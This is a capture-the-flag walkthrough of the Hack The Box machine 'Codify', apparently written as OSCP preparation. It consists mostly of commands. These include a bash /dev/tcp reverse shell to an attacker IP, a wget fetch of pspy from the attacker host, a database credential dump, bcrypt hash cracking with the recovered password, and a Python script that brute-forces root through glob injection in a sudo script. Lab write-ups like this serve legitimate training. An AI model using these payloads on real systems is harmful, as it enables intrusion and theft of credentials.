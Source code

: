 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.239                # Fast full TCP port scan
nmap -p 22,80,3000 -sCV 10.10.11.239                  # Version & script scan on identified ports
head -1 /etc/hosts                                    # Confirm domain mapping to codify.htb
```

---

## 🧪 CVE-Based Exploitation

**Relevant CVEs for vm2 (v3.9.16):**

- [CVE-2023-32314](https://github.com/p4p1/vm2-cve-2023-32314)
- [CVE-2023-30547](https://github.com/p4p1/vm2-cve-2023-30547)
- [CVE-2023-37466](https://github.com/p4p1/vm2-cve-2023-37466)
- [CVE-2023-37903](https://github.com/p4p1/vm2-cve-2023-37903)

> Used payloads from these to gain command execution via sandbox escape.

---

## 🐚 Reverse Shell Access

```bash
# Listener on attacker box
nc -lvnp 443

# Payload sent via web shell
bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"

# Upgrade reverse shell
script /dev/null -c bash
stty raw -echo; fg
```

> Reverse shell lands as `svc` user.

---

## 🧼 Local Enumeration

```bash
ls -la                                        # Basic file listing
cd /home/joshua/                              # Access check for next user
ls /var/www                                   # Discover web app directories
ls editor/ contact/                           # Review contents of Node.js apps
cat index.js | grep 'app\.'                   # View all express routes in contact app
```

---

## 🧩 SQLite Enumeration

```bash
sqlite3 tickets.db                            # Open the database
.tables                                       # View all tables
.schema users                                 # Get table structure
select * from users;                          # Dump credentials
```

---

## 🔓 Cracking the User Hash

```bash
# Save hash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > joshua.hash

# Crack with hashcat (bcrypt mode 3200)
hashcat -m 3200 joshua.hash rockyou.txt
```

> Cracked to: `spongebob1`

---

## 🔑 [Privilege Escalation to Joshua](SSH)

```bash
su - joshua                                    # Use cracked password
sshpass -p spongebob1 ssh joshua@codify.htb    # Alternative SSH access
```

---

## 🔧 Privilege Escalation to Root

### 💡 Script Abused: `/opt/scripts/mysql-backup.sh`

```bash
sudo -l                                        # View sudo privileges
sudo /opt/scripts/mysql-backup.sh             # Run vulnerable backup script
```

#### 🧨 Bypass Password Check

```bash
echo "*" | sudo /opt/scripts/mysql-backup.sh  # Bypass using bash glob injection
```

> Works because `[[ $USER_PASS == $DB_PASS ]]` lacks quotes.

---

#### 🔭 Leak Root Password via Process Watch

```bash
# On attacker box
python -m http.server 80 -d /opt/

# On target
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

> Watch for `-p<password>` appearing in `mysql` or `mysqldump` command.

---

#### 🧠 Brute-Force Root Password with Python

```python
# leak_password.py
import subprocess, string
leaked_password = ""
while True:
    for c in string.printable[:-5]:
        if c in '*\\%': continue
        print(f"\r{leaked_password}{c}", end="", flush=True)
        try:
            subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", shell=True, timeout=0.3)
        except subprocess.TimeoutExpired:
            leaked_password += c
            break
    else: break
print(f"\nPassword: {leaked_password}")
```

---

## 🧙‍♂️ Root Access

```bash
su -                                           # With leaked/brute-forced password
cat /root/root.txt
```